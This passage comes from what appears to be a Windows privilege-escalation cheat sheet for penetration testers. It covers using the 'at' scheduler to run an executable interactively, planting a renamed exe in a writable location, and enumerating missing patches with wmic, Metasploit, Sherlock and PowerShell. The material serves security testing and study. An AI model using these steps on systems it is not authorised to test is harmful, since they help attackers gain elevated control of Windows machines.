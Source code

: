    ```text
   net start "Task Scheduler"
   ```

3. Check the current time

   ```text
   time
   ```

4. Create a task that will run our executable 1 minute after the current time

   ```text
   at [time e.g. 06:42] /interactive [path]
   ```

   OR

5. Compile a exe file
6. Rename and place the file in the identified writable location

## Discovery of Missing Patches

**By CMD**

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB3136041" /C:"KB4018483"
```

**By Metasploit**

```text
use post/windows/gather/enum_patches
```

**By PowerShell \(Sherlock\)**

```text
PS C:\Users\User > Find-AllVulns
```

**By PowerShell** Get-HotFix

```text
Get-HotFix | Sort-Object HotFixID | Format-Table AutoSize
```

WMI

```text
Get-WmiObject -Class "win32_quickfixengineering" | Select-Object -Property "Description", "HotfixID",
@{Name="InstalledOn"; Expression={([DateTime]($_.InstalledOn)).ToLocalTime()}}
```

## Tools

### windows-privesc-check \(pentestmonkey\)
